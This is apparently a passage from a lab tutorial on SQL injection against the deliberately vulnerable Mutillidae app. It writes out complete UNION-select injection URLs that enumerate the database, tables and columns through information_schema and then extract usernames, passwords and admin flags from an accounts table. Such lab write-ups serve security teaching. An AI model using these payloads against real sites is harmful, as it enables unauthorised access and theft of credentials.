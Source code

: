 
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details


![24](https://github.com/Nandhinijaya/sqlinjection/assets/121998147/ae11fcfc-d422-40ba-bd20-c362350e5026)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![25](https://github.com/Nandhinijaya/sqlinjection/assets/121998147/45c074f5-190a-4f19-b5ae-819a7d83993b)

The url once executed will retrieve table names from the “owasp 10” database.
## Extracting sensitive data such as passwords:
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![26](https://github.com/Nandhinijaya/sqlinjection/assets/121998147/1fb6be1b-8d1e-4d78-bdfc-bb44c9021548)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details


![27](https://github.com/Nandhinijaya/sqlinjection/assets/121998147/2f6394f6-6af7-4125-b501-9b935d7bae2e)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
